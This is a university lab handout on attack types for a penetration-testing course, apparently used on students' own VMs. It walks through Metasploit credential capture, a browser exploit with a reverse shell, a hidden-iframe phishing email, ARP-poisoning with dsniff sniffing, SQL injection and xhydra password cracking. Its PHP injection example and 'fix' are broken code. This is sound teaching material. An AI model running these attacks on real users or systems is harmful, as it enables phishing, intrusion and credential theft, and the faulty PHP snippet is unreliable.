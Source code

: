 ```yaml
---
id: lab4
title: Lab 4
sidebar_position: 4
description: Lab 4 for Students to Complete and Submit
---
```


# Lab 4

## Types of Attacks

### Introduction

In the previous lab, you learned how to perform penetration testing on a vulnerable (target) server. You learned how to perform scanning and enumeration, and then ran vulnerability testing software (eg. Metasploit) to gain access to your Windows server.

In this lab, students will learn **other methods of vulnerability testing** to gain access to vulnerable servers:

- This lab will allow students to identify and practice common types of attacks that occur on targeted computer systems.
- First, students will be exposed to **Client-side** attacks (usually initiated by the server's users) including **Malicious web-page Payloads**, and **IP Spoofing** (Man in the Middle) attacks.
- Then, students will focus on **Server-side** attacks such as **Server-side Injection**, and **Password** attacks.

### Objectives

1. Access a server by creating a webpage using the **<iframe\>** tag to redirect a user to a **Metasploit exploit** in order to gain access to the computer system.
2. Understand how **phishing** can be used to have the user inadvertantly activate (trigger) HTML code to access a vulnerable server via a web-browser.
3. Perform **IP Spoofing** (Man in the Middle) attacks in order to obtain useful information between a connect between computers.
4. Access and manipulate a database server to gain access into the targeted server.
5. Use a **password cracking program** to discover and access user accounts, and possibly root access.

### Required Materials (Bring to All Labs)

- **SATA Hard Disk** (in removable disk tray).
- **Lab Logbook (Lab6 Reference Sheet)** (to make notes and observations).

### Prerequisites

[SEC520 Lab 3](./lab3.md)

### Online Tools and References

- [Metasploit Framework](http://www.ehacking.net/2011/10/metasploit-tutorials-from-beginner-to.html)
- [arpspoof](http://www.irongeek.com/i.php?page=security/arpspoof)
- [xhydra](http://arhodes505.awardspace.us/minituts/xhydra.htm)

### Course Notes

- [odp](http://cs.senecac.on.ca/~fac/sec520/slides/sec520_w7_l1.odp) | [pdf](http://cs.senecac.on.ca/~fac/sec520/slides/sec520_w7_l1.pdf) | [ppt](http://cs.senecac.on.ca/~fac/sec520/slides/sec520_w7_l1.ppt) (Slides: Types of Attacks)
- [Phishing](http://www.youtube.com/watch?v=ZUygX8TBBw0) | [Malicious Payload](http://www.youtube.com/watch?v=PqfZM3Lxrmg) | [IP Spoofing](http://www.youtube.com/watch?v=-hd7XG-b6uk) | [Database Injection](http://www.youtube.com/watch?v=AhTfo6pWBIM) (YouTube Videos)

## Performing Lab 4

**CAUTION!**

Scanning ports and exploiting servers must
require the permission of Server Owner (preferably in writing). Students

must either use their VMs, use the IFS lab (if available), or sign an agreement to use the **Tank** server when practising these computer system intrusion methods.

### Task #1: Web-browser Redirect (Phishing) Attacks

This section will demonstrate the vulnerability of a computer system with one of its weakest links: _Humans_. You will be using the **Metasploit** framework to create an attack on your server that will _exploit_ and _gain access_ to your target machine. You will also learn how you can redirect users to this attack site to deliver the malicious payload to that targeted computer.

**INSTRUCTIONS:**

Metasploit is a very versatile tool for penetration testing. In addition to gaining access to "targeted" computer systems by using the **Armitage** frontend, other strategies such as _lurking_ to gain access (via reverse shell) by redirecting web-browser traffic are also available.

In this section, we will be using the mfs-console to issue commands to exploit via the web-browser. Before we start, we should update our Metasploit Framework. In order to achieve this, we will update the older version of Metasploit that came with our Kali Linux edition with a new version:

**Using The MSF Console**

**msfconsole** is a shell that allows penetration testers to issue commands when working with Metasploit. For example, IFS students in the degree program are expected to perform penetration testing more in the msfconsole than using Metasploit GUIs like Armatage!

We will be running the **msfconsole** command to access the command shell, and setup a typical phishing attack.

1. Login as **root** user, and issue the command: `msfconsole` (ignore error, console should eventually load). If problems persist check to see if the Metasploit server is running.

    - Next, we will be generating an attack payload (code) that can be executed from an html file (via a form button) to gain access to the computer system. Perform the following steps to create this payload (html) file:

2. In the **msfconsole**, issue the following commands:

```bash
  use auxiliary/server/capture/http_basic
  show options
  set REALM Facebook Gateway
  set URIPATH /
  run
```

3. Note the **LOCAL IP ADDRESS**. You will be entering that address in a web-browser on your targeted Windows server.
4. Your attack server (running Metasploit) is now "lurking" until the user enters data in a windows dialog box.

**Disable Internet Explorer Enhanced Security:** In order to demonstrate this attack, we will disable Internet Explorer Enhanced Security. Perform the instructions below to disable this feature.

5. Switch to your vulnerable Windows server, make certain that you are logged in as **Administrator**.
6. Open the **Control Panel**, select **Add or Remove Programs**, select **Add/Remove Windows Components**. Click to select **Internet Explorer Enhanced Security Configuration** and click **Details**. Unclick the checkboxes for admin and all other users and then click **Next**.
7. Login into a regular user account and open a web-browser.
8. Enter the IP ADDRESS for the attack web-site. Enter a username and password when prompted by the dialog box
9. Now, switch to your attack machine (i.e. host), and you should see a notification of the exploit. Where you able to determine the username and password?
10. Did you think it would be harder to exploit a machine in this way?
11. How popular do you think this type of human-based attack is?
12. How can you prevent this type of attack from occurring on a "hardened system"?
13. Record your findings in your lab log-book.

**The Phishing Attack (For Interest Only)**

**WARNING! Only try this for penetration testing on your VMs or on servers that you have permission to perform penetration testing!**

Only You have created a mechanism to gain access to a vulnerable system by using the targeted system's web-browser. All the **penetration tester** needs to do, is to set an **elaborate "trap" to redirect the user to your host's IP_ADDRESS**, disguised as a regular link.

Here is how simple (subtle) it can be:

1. Perform a Google search to use msfconsole to setup a "reverse shell attack" by entering the console commands:

    - use windows/browser/ms10_002_aurora
    - set generic/shell_reverse tcp
    - set LHOST (your attack host IP ADDRESS)
    - set URIPATH /
    - set LPORT 7371
    - set SRVPORT 80
    - exploit

2. Create a "phony" facebook notification for the "targeted" user on the system (this is where the reconnaissance (information gathering) phase comes in handy such as e-mail usernames and facebook accounts.
3. Here is a link to sample HTML code: [Template of e-mail attachment](https://scs.senecac.on.ca/~fac/sec520/labs/email-attachment-template.html.txt)
4. Edit the file to contain the following iframe (that will draw the user to your attack website):

```html
<iframe src="ATTACK_SERVER_IP_ADDRESS" width="100" height="0"> </iframe>
```

5. We could then send this HTML file via an e-mail to the user (in this case masquerading as a facebook notification. You could simulate this attack for demonstration by creating the html file in your Windows server, and load this file with a web-browser (like Internet Explorer).

    - Another approach would be to send a "phony" notification with links to the facebook "login" page with the <iframe> element.

14. Proceed to Task #2

**Answer the Task #1 observations / questions in your lab log book.**

### Task #2: IP Spoofing (Man in the Middle) Attacks / Packet Sniffing

This section will demonstrate an **IP Spoofing** attack (sometimes referred to as "_arp poisoning_") where the target server is "tricked" into communicating with a server that assumes has the correct MAC address. The attacker can then "**feed packets**" to the destination allowing for an uninterupted session to obtain information such as usernames and passwords.

**INSTRUCTIONS:**

1. We will be using your **Kali Linux** host machine, **Vulnerable Windows VM**, and **Vulnerable Linux VM** for this section.
2. Note the IP Address of your Windows server.
3. Make certain that your Windows machine is running an FTP server. Set up the FTP server to only allow users to access the FTP server by username and password (possibly not required from default installation and startup).
4. For demonstration purposes of this "man in the middle" attack, open a command prompt, and issue the following MS-Windows command:

```bash
ping LINUX_IP_ADDR -t
```

   - You should now see proof of a connection between your vulnerable Windows and Linux servers.

5. Switch to your vulnerable Linux server, open a shell terminal, and note the IP Address of your vulnerable Linux server.
6. Open another shell terminal, and issue the following Linux command to continuously "ping" the Windows server:

```bash
ping WINDOWS_IP_ADDR
```

7. We will now trick the Windows server into thinking that the attack (Kali Linux or "host") server is the destination server.
8. Switch to your Kali Linux (host) server, and open a shell terminal.
9. While in the host (attack) machine, issue the following Linux command:

```bash
sudo arpspoof -t WINDOWS_IP_ADDR LINUX_IP_ADDR
```

10. We need to continue the "man in the middle" attack by now performing the same manuever for the Linux VM. While still in the host (attack) machine, open another shell terminal and issue the following Linux command:

```bash
sudo arpspoof -t LINUX_IP_ADDR_LINUX WINDOWS_IP_ADDR
```

11. Switch to first your vulnerable Windows machine to view the pings. What do you notice? Do the same for your vulnerable Linux machine. Record your findings in your lab log-book.

**Connection Disconnected:** When initionally performing an "IP Spoof", the connection between the machines is temporary broken. In order to re-establish a connection (via the "man in the middle") the attacker must establish **IP FORWARDING**.

12. To complete the "man in the middle" attack, you are required to establish **IP FORWARDING**. Open another shell window in your host (attack) machine, and issue the following Linux command in your attack host:

```bash
sudo su           # login with admin passord
echo 1 > /proc/sys/net/ipv4/ip_forward
```

   - (This means to set IP FORWARDING to "True" or "On")

13. Switch to your vulnerable Windows and Linux machines. Is the connection (using the ping command) re-established? Record your findings in your lab log-book.

**Obtaining Username / Password Information**

One of the main reasons for a **"man in the middle" attack** is to obtain sensitive information such as a username and password for further exploitation. A **Packet Sniffer** is a useful tool when using a "man in the middle attack". Throughout your journey in the area of Internet Security, you will soon learn there is an ambundence of tools, many of which do the same thing (including packet sniffers). For the remainder of this section we will use a packet sniffer tool called **dsniff**.

14. On an available shell terminal on your host (attack) server, and issue the following Linux command:

```bash
dsniff
```

   - (**tip**: Use the command: `find -P . | grep dsniff` to locate dsniff superuser executable)

15. This packet sniffer program will lurk until a user from the Linux VM establishes a connection with the Windows VM FTP SERVER.
16. Switch to your vulnerable Linux server, and establish an FTP connection with the Windows FTP server.

**FTP Doesn't Work / Alternative Arp Posioning Method:** Students have noticed that when using Kali Linux as a host machine for the vulnerable Windows and Linux VMs they experience a problem when using the **arpspoof** command. You can use the **ettercap** command as an alternative command which does not require port forwarding and performs the dsniff command as well. To run the ettercap command, issue the following command: 

```bash
ettercap -T -M arp /// /// -i vboxnet0
```

17. Then switch back to your host (attack) server.
18. What do you notice? Is this information sufficent to logon as a Windows system user? Record your findings in your lab log-book.
19. Return to your vulnerable Linux server, and close the FTP connection with the Windows server.
20. Switch back to your attack server. What information does **dsniff** provide?
21. What steps would a security analyst implement in order to reduce the possibility of a "man in the middle" attack?
22. Record your findings/answers in your lab log-book.
23. Proceed to Task #3

**Answer Task #2 observations / questions in your lab log book.**

### Task #3: Database Injection Attack

**SQL injection attacks** are basically in the form of introducing or "injecting" malicious code via the input (form) for the SQL/MYSQL database, in order to gain access to the backend database. There are many different methods of injection attacks. We will demonstrate a fairly common method of injection attack which exploits a weakness for the MYSQL server (that fail to **sanitize** user input. In this case, the user inserting illegal characters (single quote i) within an established web-based database form.

In this section, we will only expose the student to the concept of an injection attack. **You are NOT required to setup the MYSQL server, or run a SQL injection attack on your vulnerable machines...**

**INSTRUCTIONS:**

1. Study the following PHP code below:

```bash
<?php
	
	$user = $_POST['usr'];
	
	$user = "anything' OR x='x";

  mysql_query("SELECT user,password FROM users WHERE user ' 'anything' or x='x'");
	
?>
```

2. How could this code be incorporated with an HTML document (using a form) to perform a **database injection** attack? Record your answer in your lab log-book.
3. View the associated **YouTube** video in the resources above, and try briefly explained why this type of attack could work. Write your explanation in your lab log-book.
4. Now, make the following editing changes to your saved database form (areas to be changed are displayed in bold, red colour:

```bash
<?php
	
	$user = <span style="color:red;font-weight:bold">mysql_real_escape_string(</span>$_POST['usr']<span style="color:red;font-weight:bold">)</span>;
	
	$user = "anything' OR x='x";
	
  mysql_query("SELECT user,password FROM users WHERE user ' 'anything' or x='x'");
	
?>
```

5. Try to explain how this last editing session prevented this SQL injection attack. Record your observations/answers in your lab log-book.
6. Proceed to Task #4.

**Answer Task #3 observations / questions in your lab log book.**

### Task #4: Password Cracking Attack

In this section, you will learn another technique to crack passwords by obtaining _usernames_ from e-mail addresses, and then running a _password cracking program_ to hopefully gain access to an account on a vulnerable Windows server that contains a weak password. Then, after gaining access to the account, we will then use a series of techniques to gain access to the administrator's account.

**INSTRUCTIONS:**

1. Go to your vulnerable Windows server, create a username called **weak** that contains a very weak password (no special characters, just words that could be contained in a dictionary).
2. How could you obtain usernames (eg. e-mail usernames) for a targetted computer system? (review your labs and notes during the Reconnaissance Phase). Record your answer in your lab log-book.
3. Assuming that you have obtained a username (i.e. username: **weak**) from the reconnaissance phase. We will now be using a tool to gain access to the account on the targeted Windows server.

**Cain Password Dictionary:** A password cracking program requires a dictionary of common passwords. The file **cain.txt** is a popular dictionary of typical or common passwords that can be used to test for weak passwords on a server.

4. We need to download a dictionary file containing many of the weak password combinations to help crack a user's weak password. You can perform a Netsearch in order to save this dictionary as a text file.

    - Here is a link to various password cracking dictionaries: http://www.skullsecurity.org/wiki/index.php/Passwords
    - As root, download the compressed file (cain.txt.bz2) to your **/root** directory.

5. Decompress the file by issuing the following Linux command:

```bash
bunzip2 cain.txt.bz2
```

**xhydra:** xhydra is a graphical frontend of a program that scans open ports, and attempts to crack account passwords that are weak using a dictionary file of potential passwords. Of course, you could have performed this task manually by using **nmap** to scan open ports, and use other password cracking tools (such as **Cain and Able**), but **xhydra** performs these operations automatically.


6. To launch the xhydra application as root (unless you are already in root), issue the following Linux command:

```bash
sudo xhydra
```

7. In the initial application window (ie. **Target** tab), enter the **WINDOWS_IP_ADDR** in the **Target** textbox.
8. Under the **Protocol** list-box, select **ftp**.
9. In the **Output Options** section, check **Be verbose**, and check **Show Attempts**.
10. Move to the next screen by clicking on the **Passwords** tab.
11. In the **Username** section, type the username called **weak**.
12. In the **Password** section, click on the **passwords list** radio button, and then click on the **passwords list text-box** in order to browse to the **/root/cain.txt** dictionary (on your Kali Linux system) that contains common passwords that you downloaded and decompressed.
13. At the bottom of the screen, check **Try login as password**, and click **Try Empty Password**.
14. Click on the **Start** tab, and click on the **Start** button (at the bottom of the screen) to begin the attack.
15. This attack may take several minutes to complete.
16. Check the output from the Password Cracking Attempt. Did it list any usernames and passwords? If so, record the information in your lab log-book.

**Gaining Root Access:** Once a penetration tester has access to a system as an unpriviledged user, there are methods to try to identify and gain access to an administrative account. For example with Linux systems, gaining access to the **/etc/passwd** file to list users with administrative privedges and gaining access to the **/etc/shadow** to attempt a crack the root password hash (via the **John the Ripper** utility).

17. What sort of harm can be done to this organization if the **root** account has been hacked?
18. What sort of password rules should be used to make it harder to penetrate this system?

**Sharpening Your Skills (hackthissite.org)**

If you are interested in practicing or "honing" your penetration skills, there is a site called http://www.hackthissite.org that allows students to play and practice their skills.

**WARNING**: You ARE NOT SAFE in leaving personal information on the site. The owner of this site has served jail-time for FRAUD. There is also the possibility that a member of the hacker community may be able to access your personal information and use it for their personal advantage (at your expense).

You have been warned!

19. Record your findings in your lab log-book.
20. Proceed to the "Completing the Lab".

**Answer Task #4 observations / questions in your lab log book.**

## Completing the Lab

**Arrange evidence for each of these items on your screen, then ask your instructor to review them and sign off on the lab's completion:**

1. Proof of **Windows VM hack from Phishing / Malicious Code.**
2. **Packet Sniffing** information from Linux to Windows FTP connection.
3. Demonstation of **prevention from Data Injection Attack.**
4. Completed Lab 4 notes.

## Preparing for Quizzes

1. Briefly explain the purpose of a **Phishing** Attack. How can phishing relate to using **malicious code**?
2. Define the term **Man in the Middle** attack.
3. Briefly list the steps in a **Database Injection** attack.
4. How can a **dictionary file** be used to crack passwords on a targeted server?
5. What is a **password hash**? How can a _password hash_ be cracked?
6. What can an organization do to prevent passwords on their computer system from being cracked?
